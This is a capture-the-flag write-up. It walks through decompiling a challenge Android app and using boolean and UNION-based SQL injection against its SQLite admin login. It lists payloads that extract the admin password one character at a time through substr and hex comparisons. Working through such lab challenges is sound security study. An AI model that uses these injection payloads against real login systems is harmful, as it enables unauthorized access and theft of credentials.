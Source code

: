 # True or false?
## Description
True or false, we can log in as admin easily.

The description hints that the admin login has a boolean SQL injection, with that in mind, I tried some simple SQL injection,
found this little hint by click "Forget Password"
![ ](./resources/hint.jpg?raw=true)

Without knowing what type of SQL it could be, I went to decompile the apk to get an answer.
```
sudo apt install jadx dex2jar
```
![ ](./resources/dex.jpg?raw=true)</br>
Start jadx-gui and open the jar file</br>
![ ](./resources/jadx.jpg?raw=true)</br>
The app uses SQLite as its database</br>
![ ](./resources/sqlite.jpg?raw=true)</br>
<br>
<br>
After many google searches later, I came across this [ExploitDB PDF](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)</br>
With that our goal is to get a "true" from the admin login.</br>
![ ](./resources/sqltest.jpg?raw=true)</br>
Now that we know UNION sql injection works, we just need to figure out how to get the password.</br>
<br>
From the "reset password" hint, we know that the "Users" table exist and "admin" too.</br>
I got this to work:</br>
![ ](./resources/boolean.jpg?raw=true)

Explanation of how the SQLi works:
We know that from the "Users" table, there is most likely a "username" column with "admin" in it
|      Users    |               |
| ------------- | ------------- |
| username      | admin         |

substr(username,1,1) = substr("admin",1,1)</br>
substr(string,position,length)</br>
username,1,1 = a</br>
username,1,2 = ad</br>
username,2,1 = d</br>
username,2,2 = dm</br>
<br>
<br>
<br>
So we can test whether it's more or less or equal</br>
<br>
hex('a') = 61</br>
hex('z') = 7A</br>
<br>
hex('a') = hex('a') (True)</br>
hex('a') > hex('a') (False)</br>
hex('a') < hex('a') (False)</br>
<br>
hex('a') = hex('z') (False)</br>
hex('a') > hex('z') (False)</br>
hex('a') < hex('z') (True)</br>

This time we use password column (;-; 32 words to guess, tried burp but nothing)<br>
' union select password from Users where hex(substr(password,1,1))=hex('M')-- -<br>
' union select password from Users where hex(substr(password,2,1))=hex('y')-- -<br>
' union select password from Users where hex(substr(password,3,1))=hex('_')-- -<br>
...</br>
![ ](./resources/login.jpg?raw=true)
![ ](./resources/admin.jpg?raw=true)
